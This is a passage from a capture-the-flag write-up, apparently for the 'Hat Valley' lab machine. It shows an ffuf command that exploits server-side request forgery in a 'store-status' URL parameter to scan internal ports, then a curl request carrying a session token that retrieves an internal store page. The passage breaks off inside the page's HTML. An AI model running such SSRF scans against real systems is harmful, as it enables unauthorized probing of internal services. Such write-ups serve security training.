 Given we already know we're dealing with a dev server, we can try fuzzing the port to see if the store is running on a different port which perhaps explains why it's showing as 'down' -- so we create a text file of all ports 1-65535 by running `(seq 1 65535) > ports.txt`, and we fuzz the port in the URL using this newly created file:

```bash
$ffuf -u "http://hat-valley.htb/api/store-status?url=%22http:%2F%2Fstore.hat-valley.htb:FUZZ/%22" -w ports.txt -fs 0
3002                    [Status: 200, Size: 77010, Words: 5916, Lines: 686, Duration: 194ms]
8080                    [Status: 200, Size: 2881, Words: 305, Lines: 55, Duration: 513ms]
```

Let's check out port 8080:

```bash
$curl -v 'http://hat-valley.htb/api/store-status?url=%22http:%2F%2Fstore.hat-valley.htb:8080%22' -H 'Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjc1MjQyNzMzfQ.baG3nt6GCFrvWeuSbXrYaEfxpYatAw-Rx9IUTiIH5n8'
*   Trying 10.10.11.185:80...
* Connected to hat-valley.htb (10.10.11.185) port 80 (#0)
> GET /api/store-status?url=%22http:%2F%2Fstore.hat-valley.htb:8080%22 HTTP/1.1
> Host: hat-valley.htb
> User-Agent: curl/7.87.0
> Accept: */*
> Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjc1MjQyNzMzfQ.baG3nt6GCFrvWeuSbXrYaEfxpYatAw-Rx9IUTiIH5n8
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Wed, 01 Feb 2023 09:34:28 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 2881
< Connection: keep-alive
< x-powered-by: Express
< access-control-allow-origin: *
< etag: W/"b41-tn8t3x3qcvcm126OQ/i0AXwBj8M"
< 
<!DOCTYPE html>
<html lang="">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width,initial-scale=1.0">
    <link rel = "stylesheet" href = "/css/main.css">
    <link rel="stylesheet" href="/css/bootstrap.min.css">
    <!-- style css -->
    <link rel="stylesheet" href="/css/style.css">
    <!-- Responsive-->
    <link rel="stylesheet" href="/css/responsive.css">
    <!-- fevicon -->
    <link rel="icon" href="/static/blue.png" type="image/png" />
    <!-- Scrollbar Custom CSS -->
    <link rel="stylesheet" href="/css/jquery.mCustomScrollbar.min.css">
    <!-- Tweaks for older IEs-->
    <link rel="stylesheet" href="/css/font-awesome.css">
    <link rel="stylesheet" href="/css/jquery.fancybox.min.css" media="screen">
    <link rel="stylesheet" href="/static/vendors/mdi/css/materialdesignicons.min.css">
    <link rel="stylesheet" href="/static/vendors/feather/feather.css">
    <link rel="stylesheet" href="/static/vendors/base/vendor.bundle.base.css">
    <link rel="stylesheet" href="/static/vendors/flag-icon-css/css/flag-icon.min.css">
    <link rel="stylesheet" href="/static/vendors/font-awesome/css/font-awesome.min.css">
    <link rel="stylesheet" href="/static/vendors/jquery-bar-rating/fontawesome-stars-o.css">
    <link rel="stylesheet" href="/static/vendors/jquery-bar-rating/fontawesome-stars.css">
    <link rel="stylesheet" href="/static/css/style.css">
```